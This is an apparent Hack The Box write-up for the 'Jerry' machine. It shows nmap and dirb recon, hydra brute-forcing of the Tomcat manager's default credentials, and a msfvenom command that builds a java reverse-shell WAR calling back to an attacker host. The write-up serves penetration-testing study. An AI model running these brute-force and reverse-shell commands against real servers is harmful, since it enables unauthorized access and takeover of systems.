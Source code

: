 # Jerry Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA jerry 10.10.10.95``

### or

``nmap -p- -sV -oA fulljerry 10.10.10.95``

### Directory Bruteforce 

``dirb http://10.10.10.95:8080/ -w /usr/share/wordlists/dirb/common.txt``

![image](https://user-images.githubusercontent.com/123066149/217837076-177eb05d-fd9b-44bb-8619-dd0c19e39911.png)

# ${{\color{purple}Initial Foothold}}\ $

### Find default admin panel with Basic http authentication 

http://10.10.10.95:8080/manager/status
http://10.10.10.95:8080/manager/html

![image](https://user-images.githubusercontent.com/123066149/217837876-b8eeaf5c-e10c-48c0-9469-8574fbeba3fc.png)
![image](https://user-images.githubusercontent.com/123066149/217838004-2ed7f501-8a57-4d9f-9ada-a8640cea0ca2.png)

# ${{\color{purple}Exploitation}}\ $

### I used ``hydra`` for bruteforce http because it didn't work as I wanted with burp intruder :

### I used the wordlist tomcat-betterdefaultpasslist.txt from seclits :

``cd /usr/share/wordlists/seclists && find . | grep tomcat``

![image](https://user-images.githubusercontent.com/123066149/217838601-ff6a39d7-8ad5-4163-97a4-f60de4d4cd20.png)

``hydra -C tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html``

``hydra -C tomcat-betterdefaultpasslist.txt -s 8080 10.10.10.95 http-get /manager/html``

### Finally the last command is very good because it allows me to see the hydra requests in burp via the proxy and also to use hydra again 

``HYDRA_PROXY_HTTP=http://127.0.0.1:8080 hydra -C tomcat-betterdefaultpasslist.txt -s 8080 10.10.10.95 http-get /manager/html``


![image](https://user-images.githubusercontent.com/123066149/217839534-73005491-ecc0-48be-8d21-73f1a94d3504.png)

![image](https://user-images.githubusercontent.com/123066149/217839927-2d0231f4-2550-44fe-9331-72b68ee49741.png)


# ${{\color{purple}Privilege Escalation}}\ $

Tomcat service runs with the highest privileges

![image](https://user-images.githubusercontent.com/123066149/217841342-de04b991-cc8e-4071-a5a2-1ff0c75eba29.png)


![image](https://user-images.githubusercontent.com/123066149/217840387-43774f17-b81b-4ab1-9013-681a64162903.png)

``msfvenom -p java/shell_reverse_tcp LHOST=10.10.16.5 LPORT=445 -f war -o shell.war``

For this reverse shell in .war I used this site 

https://www.revshells.com

![image](https://user-images.githubusercontent.com/123066149/217842180-aadccf45-e960-42e2-881c-22bf24fe6c6e.png)

# ${{\color{purple}Points of Improvement}}\ $

* Better look at the error messages 

* Use seclists for http bruteforces

* Use multiple tools for http bruteforces
